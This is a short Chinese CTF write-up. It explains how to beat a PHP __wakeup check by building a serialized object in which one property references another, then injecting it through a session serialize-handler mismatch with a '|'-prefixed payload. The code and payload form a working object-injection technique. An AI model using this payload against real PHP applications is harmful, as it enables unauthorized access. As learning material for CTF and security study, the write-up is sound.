

---
tags:
  - session
  - PHP
  - serialize
Date: 2026-02-03
---

```php
<?php  
highlight_file(__FILE__);  
/*hint.php*/  
session_start();  
class Flag{  
    public $name;  
    public $her;  
    function __wakeup(){        $this->her=md5(rand(1, 10000));  
        if ($this->name===$this->her){  
            include('flag.php');  
            echo $flag;  
        }  
    }  
}  
?>
```
### 分析
Flag类里面的属性her会在反序列化的时候触发wakeup赋值1-10000随机md5值
判断条件是her\=\=\=name

### 解决
通过引用的方式令name为her的值

首先打开hint.php
```php
<?php  
highlight_file(__FILE__);  
error_reporting(0);  
ini_set('session.serialize_handler', 'php_serialize');  
session_start();  
$_SESSION['a'] = $_GET['a'];  
?>
```
提供了一个session提交的接口
此时只需要构造新的Flag类即可

```php
<?php
class Flag
{
    public $name;
    public $her;
}

$a = new Flag();
$a->name = &$a->her;

echo serialize($a);
```
构造引用
```php
O:4:"Flag":2:{s:4:"name";N;s:3:"her";R:2;}
```
得到要反序列化的内容

又因为此时，上传格式是用的serialize的处理器，读取时php处理器，因此提交的时候只需要加上|-->`|O:4:"Flag":2:{s:4:"name";N;s:3:"her";R:2;}`



回到index.php


此时已经条件判断成功

